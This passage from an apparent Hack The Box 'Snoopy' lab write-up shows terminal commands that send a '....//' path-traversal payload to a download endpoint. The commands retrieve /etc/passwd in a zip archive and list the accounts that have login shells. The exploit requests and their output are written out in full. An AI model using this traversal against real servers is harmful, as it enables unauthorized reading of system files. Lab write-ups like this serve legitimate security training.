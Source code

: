 ![](/assets/obsidian/fa969f50e76b26d5f5cb9506a3a49491.png)

Check users

```bash
┌──(bravosec㉿fsociety)-[~/htb/Snoopy]
└─$ http 'http://snoopy.htb/download?file=....//....//....//....//etc/passwd'
HTTP/1.1 200 OK
Connection: keep-alive
Content-Disposition: attachment; filename=press_release.zip
Content-Length: 796
Content-Type: application/zip
Date: Thu, 21 Sep 2023 11:57:27 GMT
Server: nginx/1.18.0 (Ubuntu)



+-----------------------------------------+
| NOTE: binary data not shown in terminal |
+-----------------------------------------+
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Snoopy/loot]
└─$ wget 'http://snoopy.htb/download?file=....//....//....//....//etc/passwd'

┌──(bravosec㉿fsociety)-[~/htb/Snoopy/loot]
└─$ file 'download?file=....%2F%2F....%2F%2F....%2F%2F....%2F%2Fetc%2Fpasswd'
download?file=....%2F%2F....%2F%2F....%2F%2F....%2F%2Fetc%2Fpasswd: Zip archive data, at least v2.0 to extract, compression method=deflate

┌──(bravosec㉿fsociety)-[~/htb/Snoopy/loot]
└─$ unzip -l download\?file=....%2F%2F....%2F%2F....%2F%2F....%2F%2Fetc%2Fpasswd
Archive:  download?file=....%2F%2F....%2F%2F....%2F%2F....%2F%2Fetc%2Fpasswd
  Length      Date    Time    Name
---------  ---------- -----   ----
     1805  2023-04-25 19:38   press_package/etc/passwd
---------                     -------
     1805                     1 file

┌──(bravosec㉿fsociety)-[~/htb/Snoopy/loot]
└─$ zcat download\?file=....%2F%2F....%2F%2F....%2F%2F....%2F%2Fetc%2Fpasswd|grep sh$
root:x:0:0:root:/root:/bin/bash
cbrown:x:1000:1000:Charlie Brown:/home/cbrown:/bin/bash
sbrown:x:1001:1001:Sally Brown:/home/sbrown:/bin/bash
lpelt:x:1003:1004::/home/lpelt:/bin/bash
cschultz:x:1004:1005:Charles Schultz:/home/cschultz:/bin/bash
vgray:x:1005:1006:Violet Gray:/home/vgray:/bin/bash
```
